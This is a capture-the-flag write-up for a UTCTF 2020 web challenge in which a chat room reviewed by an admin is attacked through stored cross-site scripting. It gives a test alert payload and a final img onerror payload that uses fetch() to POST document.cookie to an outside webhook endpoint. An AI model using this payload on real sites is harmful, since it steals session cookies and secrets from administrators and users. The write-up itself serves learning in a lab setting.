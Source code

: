 ```yaml
---
ctf: utctf
year: 2020
tags:
  - web
  - xxs
---
```


# UTCTF

## Web

### Chatt with Bratt

For this challenge we were faced with a chat room with Brad Pid himself!
There was a warning though, we could not be rude to Brad because we admins would check the chats.

With this in mind, we start by trying a simple [XSS injection](https://owasp.org/www-community/attacks/xss/).

```html
<body onload=alert('test1')>
```

Hitting send caused the alert to trigger!
So now lets make it a bit more complex, we need some endpoint to make requests to.
I used [Webhook.site](https://webhook.site), it gives me a URL to make requests to and logs everything.

Before getting into the script, we need to decide what to steal.
In our case, when looking at the cookies there is one that stands out, the `secret`.

We'll steal them!

My final script looked like:

```html
<img
    src="http://url.to.file.which/not.exist"
    onerror="fetch(
        'https://webhook.site/#!/81f7d094-c908-465d-a571-ad47582fd6c6', {
            method:'POST',
            body: JSON.stringify({data:document.cookie})
        }
    );">
```

Which sent the flag to the given endpoint.